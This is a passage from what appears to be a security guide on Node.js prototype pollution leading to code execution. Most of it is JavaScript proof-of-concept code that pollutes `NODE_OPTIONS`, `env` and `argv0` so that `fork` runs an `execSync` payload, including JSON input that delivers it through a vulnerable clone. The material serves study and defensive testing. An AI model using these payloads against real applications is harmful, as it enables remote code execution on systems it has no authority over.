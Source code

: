 ```javascript
);

clone(USERINPUT);

var proc = fork("a_file.js");
// This should create the file /tmp/pp2rec
```

### Poisoning `constructor.prototype`

```javascript
const { execSync, fork } = require("child_process");

// Manual Pollution
b = {};
b.constructor.prototype.env = {
  EVIL: "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//",
};
b.constructor.prototype.NODE_OPTIONS = "--require /proc/self/environ";

proc = fork("a_file.js");
// This should create the file /tmp/pp2rec2

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"constructor": {"prototype": {"NODE_OPTIONS": "--require /proc/self/environ", "env": { "EVIL":"console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}}}'
);

clone(USERINPUT);

var proc = fork("a_file.js");
// This should create the file /tmp/pp2rec2
```

## PP2RCE via env vars + cmdline

A similar payload to the previous one with some changes was proposed in [**this writeup**](https://blog.sonarsource.com/blitzjs-prototype-pollution/)**.** The main differences are:

- Instead of storing the nodejs **payload** inside the file `/proc/self/environ`, it stores it i**nside argv0** of **`/proc/self/cmdline`**.
- Then, instead of requiring via **`NODE_OPTIONS`** the file `/proc/self/environ`, it **requires `/proc/self/cmdline`**.

```javascript
const { execSync, fork } = require("child_process");

// Manual Pollution
b = {};
b.__proto__.argv0 = "console.log(require('child_process').execSync('touch /tmp/pp2rce2').toString())//";
b.__proto__.NODE_OPTIONS = "--require /proc/self/cmdline";

// Trigger gadget
var proc = fork("./a_file.js");
// This should create the file /tmp/pp2rec2

// Abusing the vulnerable code
USERINPUT = JSON.parse(
  '{"__proto__": {"NODE_OPTIONS": "--require /proc/self/cmdline", "argv0": "console.log(require(\\"child_process\\").execSync(\\"touch /tmp/pp2rce2\\").toString())//"}}'
);

```
